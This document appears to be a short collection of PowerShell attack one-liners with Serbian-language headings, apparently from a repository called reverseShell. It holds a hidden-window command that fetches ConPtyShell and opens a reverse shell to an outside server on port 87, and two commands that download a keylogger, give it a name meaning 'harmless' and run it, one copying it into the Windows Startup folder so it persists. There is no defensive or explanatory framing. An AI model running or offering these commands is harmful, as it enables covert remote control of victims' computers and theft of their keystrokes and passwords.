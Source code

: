 --- POVEZIVANJE ---
powershell -WindowStyle Hidden -Command "IEX (IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell (Resolve-DnsName jangosserver.eu).IPAddress 87"

--- SKIDANJE I POKRETANJE KEYLOGGERA ---
Invoke-WebRequest -Uri "https://github.com/Jango47/reverseShell/releases/download/keylogger/keylogger.exe" -OutFile "$env:LOCALAPPDATA\bezopasno.exe"
& "$env:LOCALAPPDATA\bezopasno.exe"

--- SKIDANJE I POKRETANJE KEYLOGGERA NA STARTUPU ---
Invoke-WebRequest -Uri "https://github.com/Jango47/reverseShell/releases/download/keylogger/keylogger.exe" -OutFile "$env:LOCALAPPDATA\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\bezopasno.exe"
& "$env:LOCALAPPDATA\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\bezopasno.exe"
